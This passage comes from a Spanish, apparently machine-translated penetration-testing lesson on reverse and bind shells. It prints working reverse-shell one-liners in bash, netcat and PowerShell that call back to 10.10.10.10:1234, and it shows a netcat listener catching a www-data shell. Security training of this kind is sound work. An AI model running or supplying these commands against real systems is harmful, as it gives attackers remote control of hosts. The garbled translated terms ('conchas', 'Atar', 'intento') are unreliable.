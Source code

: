 Código:intento

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

Código:intento

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Código:powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

Podemos utilizar el exploit que tenemos sobre el host remoto para ejecutar uno de los comandos anteriores, es decir, a través de un exploit de Python o un módulo MetaSploit, para obtener una conexión inversa. Una vez que lo hacemos, deberíamos recibir una conexión en nuestro`netcat`oyente:

  Tipos de conchas

```shell-session
xnoxos@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Como podemos ver, después de recibir una conexión en nuestro`netcat`Oyente, pudimos escribir nuestro comando y recuperar directamente su salida, justo en nuestra máquina.

A`Reverse Shell`es útil cuando queremos obtener una conexión rápida y confiable con nuestro host comprometido. Sin embargo, un`Reverse Shell`puede ser muy frágil. Una vez que se detenga el comando de Shell inverso, o si perdemos nuestra conexión por algún motivo, tendríamos que usar el exploit inicial para ejecutar el comando de Shell Inverse nuevamente para recuperar nuestro acceso.

---

## Atar

Otro tipo de caparazón es un`Bind Shell`. A diferencia de`Reverse Shell`que se conecta con nosotros, tendremos que conectarnos a él en el`targets'`puerto de escucha.

Una vez que ejecutamos un`Bind Shell Command`, comenzará a escuchar en un puerto en el host remoto y ata el shell de ese host, es decir,`Bash`o`PowerShell`, a ese puerto. Tenemos que conectarnos a ese puerto con`netcat`, y obtendremos control a través de un caparazón en ese sistema.

---
